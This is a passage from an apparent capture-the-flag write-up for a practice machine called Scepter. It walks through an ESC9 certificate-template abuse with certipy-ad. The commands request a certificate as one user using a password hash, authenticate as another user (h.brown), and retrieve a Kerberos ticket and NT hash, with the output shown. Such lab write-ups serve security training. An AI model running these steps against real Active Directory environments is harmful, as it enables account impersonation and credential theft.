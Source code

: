and now lets use ESC9

### ESC9

```bash
➜  scepter faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" certipy-ad req -username "d.baker@scepter.htb" -hashes 18b5fb0d99e7a475316213c15b6f22ce -target "DC01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'
ntpdig: lookup of authority.htb failed, errno -2 = Name or service not known
ntpdig: no eligible servers
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: DC01.scepter.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: SCEPTER.HTB.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 2
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'd.baker.pfx'
[*] Wrote certificate and private key to 'd.baker.pfx'
```

![alt text](../assets/images/scepter8.png)

and now we can auth pfx with username h.brown

```bash
➜  scepter faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" certipy-ad auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.10.11.65 -username h.brown
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'h.brown@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'h.brown.ccache'
[*] Wrote credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
```